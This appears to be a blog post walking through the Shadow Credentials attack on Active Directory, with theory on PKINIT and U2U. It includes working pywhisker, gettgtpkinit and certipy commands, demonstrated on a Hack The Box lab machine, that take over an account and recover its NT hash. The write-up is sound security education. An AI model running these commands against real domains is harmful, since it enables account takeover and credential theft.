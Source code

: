 ```yaml
---
title: shadow credentiels
published: 2025-03-08
description: ''
image:  ../../assets/shadow_credentiels/shadow-credentials.webp
tags: [AD, PKINIT, ACL]
category: ''
draft: false 
lang: ''
---
```


The Shadow Credentials attack is a technique used to compromise Active Directory (AD) by abusing Kerberos authentication and modifying specific attributes of AD objects to gain unauthorized access.

shadow credentials occurs when an attacker have rights to modify the `msDS-KeyCredentialLink` (`GenericAll`_, _`GenericWrite`_ or _`WriteAccountRestrictions` ) attribute in an user/machine aacount 


## what is the `msDS-KeyCredentialLink` attribute

the `msDS-KeyCredentialLink` is used to store public key used by the account for authentication. When a certificate is added to a machine account, it is stored in this attribute.

:::warning
although most of the time the `msDS-KeyCredentialLink` is used by machine accounts it can also be used in user accounts
:::

## shadow credentiels

Managing and modifying the `msDS-KeyCredentialLink` attribute is an action that requires specific permissions, typically held by accounts that are members of highly privileged groups. (like `GenericAll`_,_ `GenericWrite` _or_ `WriteAccountRestrictions`)

#### steps:
* enumerate our users DACL rights and see if we have any of the write rights (`GenericAll`_,_ `GenericWrite` _or_ `WriteAccountRestrictions`) on an object 
* try to modify the value of the `msDS-KeyCredentialLink` attribute with attackers public key
* request a PFX certificate for this target user from the CA
* use that certificate to authenticate on behalf of the target user

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_1.png)


# The attack (HTB machine 'certified')
we have control over the `MANAGEMENT` groupe that have a `genericWrite` on the `mnanagement_svc` account

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_2.png)

### Exploitation

#### set the msDS-KeyCredentialLink attribute
The exploitation phase begins with populating the `msDS-KeyCredentialLink` attribute
```bash
python3 ~/work/tools/pywhisker/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --verbose
```

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_3.png)

_PyWhisker_ will automatically generate a public/private keys and save it locally. It even guides you on the next steps to obtain a Ticket Granting Ticket (TGT).


#### Acquiring a TGT for the user account (management_svc)
we use the command provided by the pywishker at the end

```bash
python3 ~/work/tools/PKINITtools/gettgtpkinit.py -cert-pfx U7IaGnXc.pfx -pfx-pass zUkBgckwFjnRehrzJHup certified.htb/management_svc U7IaGnXc.ccache
```

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_4.png)


#### Recover the NT Hash of the user account

1) first we need to remove the certificate password from our .pfx because certipy cant work with those:
	```bash
	certipy cert -export -pfx "U7IaGnXc.pfx" -password "zUkBgckwFjnRehrzJHup" -out unprotected_pfx.pfx
	```

2) Next, authenticate using _Certipy_ and retrieve the user’s hash through the U2U protocol:
```bash
certipy auth -pfx unprotected_pfx.pfx -username "management_svc" -domain "certified.htb"
```

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_5.png)

now we can use that NTLM hash for authetication


# More detailed explanation

## What is PKI ?

the usual model for kerberos authentication is asking the KDC for a TGT by sending the encrypted timestamp using the user's password hash
![](src/assets/shadow_credentiels/Shadow%20credentiels_image_6.png)

this uses symmetric cryptography schemes like RC4, AES ..

but it is possible to do this authentication using asymmetric ciphers like RSA using PKINT


### Steps

the client generate a public-private key pair and uses the private key to sign (encrypt) the timestamp, then send it along the way with his public key (or certificate) as a `AS-REQ` request.

then the server verifies the legitimacy of the public key (certificate), and try to decrypt the  encrypted timestamp with the client public key, if the timestamp is valid then it respond with  `AS-RESP` containing the TGT and the session key

#### the session key:
the session key is used for encrypting the service tickets so it should be a secret that only the client and KDC should know.
the session key is calculated either by using **KEY EXCHANGE** or **Public Key Encryption Key Delivery** AKA **KEY ENCAPSULATION** 


![](src/assets/shadow_credentiels/Shadow%20credentiels_image_7.png)

Here because we have a CA that both parties trust it is possible to verify the legitimacy of the public key (certificate)  using certificate root of trust mechanism, but what if we dont have a PKI ?

## what if we don't have a PKI
instead of using certificate root of trust, we can use key root of trust, which uses the raw data of the public key and store it in an LDAP attribute called `msDS-KeyCredentialLink`[parsing the msDS-KeyCredentialLink attribute](https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/)
```fallback
  msDS-KeyCredentialLink  | 'B:828:0002000020000108E2E5....' |
```
![](src/assets/shadow_credentiels/Shadow%20credentiels_image_8.png)

:::warning
**This means that if you can write to the msDS-KeyCredentialLink property of a user, you can obtain a TGT for that user.**
:::

## What About NTLM?
PKINIT allows WHfB users, or, more traditionally, smartcard users, to perform Kerberos authentication and obtain a TGT. But what if they need to access resources that require NTLM authentication?

the client can obtain a special TGS that contains their NTLM hash inside the PAC in an encrypted `NTLM_SUPPLEMENTAL_CREDENTIAL`

the PAC is stored in the encrypted part of the TGS, and it is encrypted with the hash of the request service, in the case of TGT it is encrypted with krbtgt password's hash

#### the U2U service
this service give users abilities to request other users NTLM hashs
YES you heard that right

BUUUT! the NTLM hash is encrypted in the ticket srvice TGS using the session key (that was calculated with the TGT) so bruteforcing or cracking this encrypted NTLM is almost impossible

![](src/assets/shadow_credentiels/Shadow%20credentiels_image_9.png)

:::warning
**This means that if you can write to the msDS-KeyCredentialLink property of a user, you can retrieve the NT hash of that user.**
:::


blog: https://i-tracing.com/blog/dacl-shadow-credentials/

original paper:  https://eladshamir.com/2021/06/21/Shadow-Credentials.html
